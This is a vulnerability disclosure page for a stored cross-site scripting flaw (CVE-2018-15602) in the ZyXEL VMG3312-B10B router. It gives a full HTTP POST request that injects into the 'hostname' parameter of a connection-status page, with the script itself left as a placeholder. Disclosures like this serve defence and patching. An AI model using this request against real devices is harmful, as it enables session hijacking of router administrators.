 ```yaml
---
title: "ZyXEL VMG3312-B10B Stored Cross-Site Scripting"
collection: exploits
excerpt: "ZyXEL VMG3312-B10B Stored Cross-Site Scripting"
permalink: /exploit/zyxel-stored-xss-exploit
date: 2018-08-21
tags:
  - exploit
  - CVE 2018 15602
  - zyxel
  - Stored XSS
  - ZyXEL VMG3312 B10B router
---
```


**Exploit Author :** Samet SAHIN  
**Date :** 21.08.2018  
**Software Link :** ftp://ftp.zyxel.com.tr/ZyXEL_URUNLERI/MODEMLER/VDSL_MODEMLER/VMG3312-B10B/  
**Vendor Homepage :** https://www.zyxel.com/  
**Version :** ZyXEL VMG3312-B10B  
**Tested on :** Mozilla Firefox 61.0.2 && Google Chrome 67.0.3396.99  
**Category :** Stored XSS  
**CVE ID :** CVE-2018-15602  

<hr><br>  

**POST REQUEST :**

POST /pages/connectionStatus/connectionStatus-hostEntry.cmd HTTP/1.1  
Host: 192.168.1.1  
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:54.0) Gecko/20100101 Firefox/54.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3  
Accept-Encoding: gzip, deflate  
Referer: http://192.168.1.1/index.html  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 79  
Cookie: SESSION=529313605  
Connection: close  
Upgrade-Insecure-Requests: 1  
action=edit&oldip=192.168.1.36&hosttype=&sessionKey=1997367832&**hostname**=**XSS PAYLOAD**  

**Vulnerable Page :**
/pages/connectionStatus/connectionStatus-hostEntry.cmd  
**Vulnerable Parameter :**
hostname


Exploit DB : <a href="https://www.exploit-db.com/exploits/45236">45236</a>
